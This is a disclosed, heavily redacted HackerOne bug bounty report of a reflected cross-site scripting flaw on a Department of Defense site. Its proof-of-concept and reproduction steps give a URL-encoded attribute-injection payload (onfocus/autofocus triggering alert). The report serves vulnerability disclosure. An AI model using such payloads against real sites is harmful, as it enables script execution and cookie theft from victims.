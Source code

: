 # Reflected XSS at https://██████████/████████ via "███████" parameter

## Report Details
- **Report ID**: 1457493
- **URL**: https://hackerone.com/reports/1457493
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-21T15:40:29.143Z
- **Disclosed**: 2022-02-14T21:20:46.378Z

## Reporter
- **Username**: pelegn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
There is Reflected Cross site scripting issue at the following url:

https://████████/█████

Proof Of Concept

https://████/███?███=%22onfocus%3d%22alert(document.domain)%22autofocus%3d%22&submit=Search

███

Best Regards
@pelegn

## Impact

Cookies Exfiltration
SOAP Bypass
CORS Bypass
Executing javascript on the victim behalf

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Navigate to https://███████/████████?███████=%22onfocus%3d%22alert(document.domain)%22autofocus%3d%22&submit=Search

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
